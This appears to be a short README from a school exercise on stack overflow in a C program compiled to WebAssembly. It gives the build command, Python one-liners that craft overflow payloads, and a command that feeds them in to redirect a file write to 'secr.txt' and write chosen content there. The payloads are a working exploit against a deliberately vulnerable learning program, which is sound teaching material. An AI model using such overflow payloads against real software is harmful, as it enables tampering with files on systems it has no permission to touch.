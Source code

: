 ## Arbitratry file write 

**Compiling the program:**
```
docker run --rm -v "$(pwd):$(pwd)" -u $(id -u):$(id -g) emscripten/emsdk:3.1.62 emcc ~/School/stack-overflow/data-corruption/main.c -o  ~/School/stack-overflow/data-corruption/main.js -lnodefs.js -s MODULARIZE=1  -s "EXPORTED_RUNTIME_METHODS=['FS', 'callMain']"  -s "EXPORTED_FUNCTIONS=['_main']"
```

**Generating payload to modify the the file to write to**
```
python3 -c 'open("payload.bin", "wb").write(32 * b"A" + 54 * b"B" + b"w\x00" + b"secr.txt")'
```

**Generating payload to modify  the file to write to and its content**
```
python3 -c 'open("payload.bin", "wb").write(32 * b"A" + 54 * b"B" + b"w\x00" + b"secr.txt\x00" + 55 * b"c" + b"Go ahead my sweet prince, press the nuke button.\x00")'
```

**Executing the program with exploit:**
```
cat payload.bin | node run.js
```